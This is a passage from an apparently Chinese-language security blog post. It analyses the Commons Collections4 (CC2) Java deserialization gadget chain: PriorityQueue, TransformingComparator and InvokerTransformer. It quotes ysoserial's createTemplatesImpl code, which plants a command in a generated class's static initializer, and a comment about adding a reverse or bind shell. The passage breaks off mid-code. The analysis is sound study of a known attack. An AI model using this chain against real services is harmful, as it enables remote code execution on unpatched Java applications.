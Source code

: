在PriorityQueue中定义了comparator字段

```java
private final Comparator<? super E> comparator;
```

在PriorityQueue中有这样一个其构造方法
![image.png](https://y4er.com/img/uploads/20200419224465.png)

所以可以通过实例化赋值。

为什么要用到PriorityQueue？在之前的cc链分析文章中我们讲过cc链的核心问题是出在`org.apache.commons.collections4.functors.InvokerTransformer#transform`的反射任意方法调用。我们反序列化时必须自动触发transform()函数，而在`org.apache.commons.collections4.comparators.TransformingComparator#compare`中调用了这个函数

![image.png](https://y4er.com/img/uploads/20200419222196.png)

this.transformer是Transformer类，在exp中承载的就是InvokerTransformer，而TransformingComparator也是比较器，我们可以通过PriorityQueue队列自动排序的特性触发compare()，进一步触发transform()。

小结一下：
1. PriorityQueue队列会自动排序触发比较器的compare()
2. TransformingComparator是比较器并且在其compare()中调用了transform()
3. transform()可以反射任意方法

到目前为止我们可以通过反序列化调用任意方法，但是不能像cc5构造的ChainedTransformer那样链式调用，继续看exp怎么构造的。

![image.png](https://y4er.com/img/uploads/20200419226310.png)

向队列中加入两个"1"占位然后将第一个元素修改为templates，追溯templates到createTemplatesImpl

```java
public static Object createTemplatesImpl ( final String command ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }

    return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}

public static <T> T createTemplatesImpl(final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String template)
    throws Exception {
    final T templates = tplClass.newInstance();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

    clazz.makeClassInitializer().insertAfter(template);
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);

    final byte[] classBytes = clazz.toBytecode();

```
